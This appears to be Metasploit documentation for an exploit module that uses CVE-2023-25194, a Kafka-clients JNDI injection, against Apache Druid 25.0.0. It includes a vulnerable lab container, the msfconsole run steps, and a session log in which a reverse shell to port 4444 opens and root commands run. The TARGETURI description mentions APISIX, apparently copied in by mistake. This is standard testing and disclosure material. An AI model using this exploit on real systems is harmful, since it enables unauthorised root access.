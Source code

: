 ## Vulnerable Application

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing.
Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the
`sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`.
It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can
use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization
of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

As Apache Druid depends on kafka-clients to connect to one of its data sources, making it out of the box vulnerable if using any
affected version.

The below docker compose file can be used to build a vulnerable container.

```yaml
version: '2'
services:
 web:
   image: vulhub/apache-druid:25.0.0
   ports:
    - "8888:8888"
```


## Verification Steps

Metasploit:

1. `./msfconsole`
1. `use exploit/multi/http/apache_druid_cve_2023_25194`
1. `set rhosts <rhost>`
1. `set target <target>`
1. `set srvhost <srvhost>`
1. `set SSL <true or false>`
1. `run`

## Scenarios

### Apache Kafka-clients 3.3.1 on Druid version 25.0.0

```
msf exploit(multi/http/apache_druid_cve_2023_25194) > exploit 

[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to trigger the jndi callback...
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unbind request
[*] Server stopped.
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:42908) at 2023-06-22 13:33:01 +0200

meterpreter > sysinfo
Computer     : 72fc9c4031a6
OS           : Linux 6.1.11-1-MANJARO #1 SMP PREEMPT_DYNAMIC Thu Feb  9 14:03:23 UTC 2023
Architecture : x64
Meterpreter  : python/linux
meterpreter > shell
Process 1112 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
find /opt/druid/extensions/druid-kafka-indexing-service/ -iname "kafka-clients*"
/opt/druid/extensions/druid-kafka-indexing-service/kafka-clients-3.3.1.jar
^C
Terminate channel 1? [y/N]  y
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: User exit
```

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/`).
